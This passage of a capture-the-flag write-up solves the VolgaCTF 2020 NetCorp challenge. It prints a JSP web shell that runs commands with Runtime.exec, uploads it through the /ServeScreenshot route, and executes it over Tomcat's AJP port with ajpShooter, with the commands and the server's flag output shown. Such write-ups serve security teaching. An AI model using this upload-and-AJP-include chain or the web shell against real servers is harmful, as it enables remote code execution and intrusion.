 And our malicious jsp payload that we'll upload via the `/ServeScreenshot` route:

`malicious.jsp`:

```java
<%@ page import="java.util.*,java.io.*"%>
<% 
String cmd = "cat flag.txt";
out.println("Command: " + cmd);
Process p = Runtime.getRuntime().exec(cmd);
OutputStream os = p.getOutputStream();
InputStream in = p.getInputStream();
DataInputStream dis = new DataInputStream(in);
String disr = dis.readLine();
while ( disr != null ) {
        out.println(disr); 
        disr = dis.readLine(); 
}
%>
```

All that's left is to put the pieces together!

First we upload the file:

```bash
$ http -f POST http://netcorp.q.2020.volgactf.ru:7782/ServeScreenshot malicious.jsp@malicious.jsp

HTTP/1.1 200 
Content-Type: application/json;charset=ISO-8859-1
Date: Mon, 30 Mar 2020 04:37:01 GMT
Transfer-Encoding: chunked

{'success':'true'}
```

We then generate the filename:

```bash
$ javac FileName.java
$ java FileName malicious.jsp
be3562dbb6d7471dd8a96790687cfd4c
```

Then we use `ajpShooter` to eval the jsp code on the server:

```bash
$ python ajpShooter.py http://netcorp.q.2020.volgactf.ru:7782 8009 /uploads/be3562dbb6d7471dd8a96790687cfd4c eval

       _    _         __ _                 _            
      /_\  (_)_ __   / _\ |__   ___   ___ | |_ ___ _ __ 
     //_\\ | | '_ \  \ \| '_ \ / _ \ / _ \| __/ _ \ '__|
    /  _  \| | |_) | _\ \ | | | (_) | (_) | ||  __/ |   
    \_/ \_// | .__/  \__/_| |_|\___/ \___/ \__\___|_|   
         |__/|_|                                        
                                                00theway,just for test
    

[<] 200 200
[<] Set-Cookie: JSESSIONID=CAD711DEA4FD70DED1E788B40A3CC7C5; Path=/; HttpOnly
[<] Content-Type: text/html;charset=ISO-8859-1
[<] Content-Length: 99


Command: cat flag.txt
VolgaCTF{qualification_unites_and_real_awesome_nothing_though_i_need_else}
```
